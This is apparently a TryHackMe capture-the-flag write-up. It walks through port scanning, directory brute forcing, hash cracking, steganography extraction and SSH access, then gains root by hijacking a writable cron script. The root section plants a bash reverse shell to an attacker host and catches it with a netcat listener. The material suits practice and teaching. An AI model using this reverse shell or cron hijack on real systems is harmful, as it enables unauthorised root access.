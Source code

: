 # recon
Like always, start with nmap. I use my own tool to automate nmap scan, check it out [pymap](https://github.com/gu2rks/pymap)
```console
$ python3 pymap.py -t $IP --all
```
There are 3 open ports:
- 80 ngnix server
- 6498 ssh
- 65524 apache server

## port 80 ngnix 
I use `gobuster` to brute forcing web directory 
```console
$ gobuster dir -u http://$IP/ -w /usr/share/SecLists/Discovery/Web-Content/big.txt -x .php,.txt,.html -t 54
```
here is what I found:
- /h______ (Status: 301)
  - /w______
- /index.html (Status: 200)
- /robots.txt (Status: 200)
The first flag is in one of the directory. Note that the flag is encoded. decode it and summit ur flag.
## port 65524 apache
Same as port 80, use `gobuster` for directory brute forcing. In the meantime I was waiting for result from go buster. I looks around and find the 3rd flag. here is what I found with gobuster.
- /index.html (Status: 200)
- /robots.txt (Status: 200)
this is odd. but let go and check what we have. I found a encoded string hidden in `/index.html`. decode it and it will give you a hidden directory call `/n0th1__________`.

moreover, in robots.txt you will find a weird string:
```
User-Agent:a1867_______________
```
I use hash analyzer to check which hash type is that. then using `hashcat` to crack it: let move back to `/n0th1__________` directory.

here you will find
```html
<img src="binarycodepixabay.jpg" width="140px" height="140px"/>
<p>940________________________</p>
```
a picture which I guess that this picture might hiding something from us (steganography). I downloaded it and used `binwalk` to analyze the picture... didnt find anything. I then use `hexeditor` to analyze the picture. I was rigth about it, the picture include a hidden file. so I use `stegcracker` to crack it.

at this moment:
- hashcat is running
- stegcracker is running
- my laptop is screaming and burning...


back to `/n0th1__________`, this a some werid strings there too. THM give us a HINT that the string is a GOST Hash. use ur favorite search engines and find online hash cracking website. Boom! I got a password!!. 

**hint**: <details>I used this [site](https://md5hashing.net/hash/gost/)) to crack it</details>


I then stop my stegcracker. and run `steghide` to extrack a hidden file:
```console
kali@kali:~/THM$ steghide extract -sf index.jpeg 
Enter passphrase: 
wrote extracted data to "secrettext.txt".
```
At this point, we still missing flag 2. Base on what we found, the string that we found in *robots.txt* (User-Agent) should give us the flag. Since *rockyou.txt* contains only password, not thing like flag{soemthing}. Which is why my `hashcat` could not crack it. 


The solution was to find online hash cracking website. to gain 2nd flag. 

**hint:** <details> same site as GOST hash cracker.</details>

Back to the file we extracted from steghide
```console
kali@kali:~/THM$ cat secrettext.txt 
username:b____
password:
01101001 <and more>
```
note that password is in binary, decode it! now let ssh and get foothold on the victim machine.
# foot hold
let get user flag!!!
```console
boring@kral4-PC:~$ ls
user.txt
boring@kral4-PC:~$ cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
<flaghere>
```
The hint said *User Flag But It Seems Wrong Like It`s Rotated Or Something*.... **Rotated**... Find out what it mean:

**hint:** <details>ROT cipher</details>

# root
I tried to `sudo -l` but we dont have premission to do so. then I remember that it said in the room detail that *escalate your privileges through a vulnerable cronjob.* so lets do it!
```console
boring@kral4-PC:~$ cat /etc/crontab # check crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```
if you do not know what cronjob is, pls look it up. In short each 1 min a hidden bash script call `.mysecretcronjob.sh` is executed by root. the script is located at `/var/www/`. lucky the script is own by our current user which mean we have a permission to read and write the script.

The plan is modify the script (`.mysecretcronjob.sh`) to a reverse shell to gain root access. add this to the script
```sh
bash -i >& /dev/tcp/<kali ip>/6969 0>&1
```
now on your kali. open netcat and listen/wait for our reverse shell to be execute by cronjob as root:
```console
kali@kali:~$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.11.14.220] from (UNKNOWN) [10.10.111.241] 56080
bash: cannot set terminal process group (1741): Inappropriate ioctl for device
bash: no job control in this shell
root@kral4-PC:/var/www#
```
now go grab root flag

**Hint**:
<details>hidden hidden hidden...</details>
